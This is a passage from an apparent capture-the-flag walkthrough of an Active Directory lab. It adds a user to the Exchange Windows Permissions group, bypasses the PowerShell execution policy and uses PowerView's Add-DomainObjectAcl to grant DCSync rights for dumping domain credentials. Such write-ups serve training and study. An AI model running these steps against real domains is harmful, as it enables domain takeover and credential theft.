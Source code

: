 Let’s now check for all the users in the Exchange Windows Permissions group.

```powershell
net group "Exchange Windows Permissions"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739111685199/e4197fb7-361b-41db-b395-ccbea21b9617.png align="center")

There are no users in this group so let’s add our user (Dignitas).

```powershell
net group "Exchange Windows Permissions" /add Dignitas
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739111772722/b762b2d1-cf9c-4b46-af71-a396f882efe8.png align="center")

We’ve successfully added our user to the `Windows Exchange Permissions` group. Let’s now check the info for the `WriteDACL` bloodhound.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739112097633/02797f35-681b-4cde-b66b-d229b6e73501.png align="center")

Woah! With this `WriteDacl` access, we can grant our user `Dignitas` any privilege we want on the object. Let’s take a look at the `Linux Abuse` section.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739112497629/eaaadc5e-0f68-4ed7-b22d-9bafb3711f43.png align="center")

So, here we have a complete guide on how to abuse this. Let’s get going with this then.

First, we need to abuse `WriteDacl` to grant `DCSync` privileges. If we have **WriteDACL** on a domain object (like `HTB.LOCAL`), we can modify the `Access Control List (ACL)` to grant `DS-Replication-Get-Changes` **&** `DS-Replication-Get-Changes-All`. This allows us to perform a **DCSync attack**, effectively dumping all domain credentials.

Let’s first transfer `Powerview.ps1` on our win-rm shell.

```powershell
upload pv.ps1
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739124331602/0738d164-34bb-4eb6-b686-78b8c78f028f.png align="center")

Let’s enable the execution policy to run our script.

```powershell
powershell -ep bypass
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739124380070/ad610d37-c4b2-458a-8cd3-569c28ec8e22.png align="center")

```powershell
$pass = convertto-securestring 'Hacker123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb\Dignitas', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity Dignitas -Rights DCSync
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739124602111/6865608e-6eab-4cdc-a083-0c96c16d89c9.png align="center")
